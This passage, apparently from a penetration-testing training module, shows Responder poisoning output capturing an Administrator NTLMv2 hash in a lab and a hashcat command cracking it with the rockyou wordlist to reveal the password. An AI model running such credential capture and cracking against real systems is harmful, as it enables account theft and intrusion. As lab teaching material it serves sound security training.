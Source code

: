 ```shell-session
[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Fingerprint hosts          [ON]

[+] Generic Options:
    Responder NIC              [tun2]
    Responder IP               [10.10.14.3]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']



[!] Error starting SSL server on port 443, check permissions or other servers running.
[+] Listening for events...
[SMB] NTLMv2-SSP Client   : 10.129.43.30
[SMB] NTLMv2-SSP Username : WINLPE-SRV01\Administrator
[SMB] NTLMv2-SSP Hash     : Administrator::WINLPE-SRV01:815c504e7b06ebda:afb6d3b195be4454b26959e754cf7137:01010...<SNIP>...
```

#### Cracking NTLMv2 Hash with Hashcat

We could then attempt to crack this password hash offline using `Hashcat` to retrieve the cleartext.

Interacting with Users

```shell-session
swmpdnky@htb[/htb]$ hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt

hashcat (v6.1.1) starting...

<SNIP>

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

ADMINISTRATOR::WINLPE-SRV01:815c504e7b06ebda:afb6d3b195be4454b26959e754cf7137:01010...<SNIP>...:Welcome1
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: NetNTLMv2
Hash.Target......: ADMINISTRATOR::WINLPE-SRV01:815c504e7b06ebda:afb6d3...000000
Time.Started.....: Thu May 27 19:16:18 2021 (1 sec)
Time.Estimated...: Thu May 27 19:16:19 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1233.7 kH/s (2.74ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 43008/14344385 (0.30%)
Rejected.........: 0/43008 (0.00%)
Restore.Point....: 36864/14344385 (0.26%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: holabebe -> harder

Started: Thu May 27 19:16:16 2021
Stopped: Thu May 27 19:16:20 2021
```